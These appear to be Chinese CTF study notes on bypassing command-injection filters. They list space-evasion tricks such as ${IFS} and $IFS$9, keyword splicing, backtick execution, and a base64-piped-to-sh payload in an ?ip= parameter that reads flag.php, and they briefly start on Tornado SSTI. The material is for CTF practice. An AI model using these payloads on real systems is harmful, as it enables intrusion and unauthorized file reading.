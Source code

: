 1.过滤问题：空格

```
{cat,flag.txt} 
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式绕过) 
```

1)变量拼接字符串

```
b=ag.php;a=fl;cat$IFS$9$a$b 

//为什么要反过来？flag匹配时中间有内容也会被匹配。
//表达式 .* 就是单个字符匹配任意次，即贪婪匹配。以这个表达式为例：a.*b，它将会匹配最长的以a开始，以b结束的字符串。如果用它来搜索aabab的话，它会匹配整个字符串aabab。这被称为贪婪匹配 
```

2)base编码绕过
base64 编码的方式来绕过 flag 过滤

```
加密命令
echo “cat flag.php” | base64
解密命令并执行
echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh
然后用$IFS$9代替空格。构造payload

  ?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh 
```

3)内联执行
linux中反引号作为内联使用

```
 cat `ls` 
```

#### nc

在linux中nc 后返回网页源码html

## tornado

[BUUCTF tornado题解](https://blog.csdn.net/weixin_44037296/article/details/105078717?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161477364616780271567725%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161477364616780271567725&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-6-105078717.pc_search_result_no_baidu_js&utm_term=buuctf+easy_tornado+1)
tornado存在模版[SSTI](https://blog.csdn.net/zz_Caleb/article/details/96480967)注入漏洞，尝试通过此漏洞获取到所需内容
1.先访问报错网页

```
/error?msg=Error 
```

